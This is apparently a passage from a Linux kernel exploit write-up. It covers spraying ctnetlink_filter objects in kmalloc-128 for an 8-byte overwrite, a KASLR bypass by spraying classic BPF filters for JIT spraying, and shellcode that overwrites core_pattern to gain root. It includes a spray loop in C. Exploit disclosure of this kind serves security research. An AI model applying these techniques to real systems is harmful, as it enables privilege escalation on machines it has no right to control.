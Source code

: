 #### For Mitigation instance
Because CONFIG_KMALLOC_SPLIT_VARSIZE is enable, we need to find a struct we can spray in kmalloc-128 fixed cache. We found out `struct ctnetlink_filter` is in the right cache. We can spray it and put payload. 

```C
static struct ctnetlink_filter *
ctnetlink_alloc_filter(const struct nlattr * const cda[], u8 family)
{
	struct ctnetlink_filter *filter;
	int err;
...

	filter = kzalloc(sizeof(*filter), GFP_KERNEL);
...
	err = ctnetlink_filter_parse_mark(&filter->mark, cda);
	if (err)
		goto err_filter;

	err = ctnetlink_parse_filter(cda[CTA_FILTER], filter);
	if (err < 0)

```

This technique allows 8-byte overwrite at offset 0x60 but requires CONFIG_NF_CONNTRACK_MARK (+ CONFIG_NETFILTER_ADVANCED + CONFIG_NETFILTER) enabled.

### KASLR Bypass
#### Spray eBPF programs
Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 
